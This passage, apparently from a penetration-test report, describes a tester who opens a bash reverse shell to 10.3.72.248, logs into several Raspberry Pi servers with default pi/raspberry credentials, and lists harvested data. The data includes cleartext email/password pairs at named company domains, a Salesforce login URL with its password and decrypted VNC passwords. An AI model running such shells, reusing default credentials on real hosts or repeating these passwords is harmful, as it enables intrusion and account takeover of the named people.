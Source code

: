 He exited full screen mode, opened a new terminal window, elevated privileges with sudo, and setup a reverse shell with the command:

```bash
bash -i &> /dev/tcp/10.3.72.248/8081 0>&1
```

The tester restored the browser window so as not to arouse suspicions and continued to explore the first device via the reverse shell. Upon repeating the process for another server they noticed it had the same same password for the "pi" account, but it was a different server. /etc/issue identified the OS as "Raspbian GNU/Linux 8 \n \l", which has a default password of pi/raspberry. Testing the credentials against SSH worked for the servers 10.3.11.11, 10.3.11.12, 10.3.11.13, 10.3.11.14, 10.3.11.16, 10.3.11.17, and 10.3.11.18.

The tester started to pillage data on each server:

* 10.3.11.11:
  * Passwords in startup scripts:
    * shaun@b2bwholesale.com.au/Hjb0f97rXEYN
    * graham@btbaustralia.com.au/j655dx266
  * Interesting URLs from browser history:
    * http://192.168.0.101:8088/IRIS/stats.html
    * http://192.168.0.101:8088/IRIS/cs-stats.html
  * Cookies from browser:
    * Salesforce
    * Linkedin
  * VNC passwords:
    * Decrypted Bin Pass= 'j655dx2'
    * Decrypted Hex Pass= '6a36353564783200'
* 10.3.11.12:
  * Passwords:
    * graham@btbaustralia.com.au/it18P8ln
    * graham@btbaustralia.com.au/j655dx266
    * shaun@b2bwholesale.com.au/Hjb0f97rXEYN
  * Interesting URLs from browser history:
    * https://login.salesforce.com/?un=graham@btbaustralia.com.au&pw=it18P8ln|‪Error - https://login.salesforce.com/?un=graham@btbaustralia.com.au&pw=it18P8ln|1495691859|736474
  * Cookies from browser:
    * Salesforce
    * Linkedin
  * VNC passwords:
    * Decrypted Bin Pass= 'j655dx2'
    * Decrypted Hex Pass= '6a36353564783200'
* 10.3.11.13:
  * No new information
* 10.3.11.14:
  * No new passwords
  * No interesting browser history
  * Cookies from browser:
    * Salesforce
    * Linkedin
    * pubmatic.com
    * login.newrelic.com
    * twitter.com
    * newrelic.com
  * VNC password are same as other boxes
* 10.3.11.16:
  * No new passwords
  * No interesting browser history
  * Cookies from browser:
    * Salesforce
    * Linkedin
  * VNC password are same as other boxes
* 10.3.11.17:
  * No new passwords
  * Interesting URLs from browser history: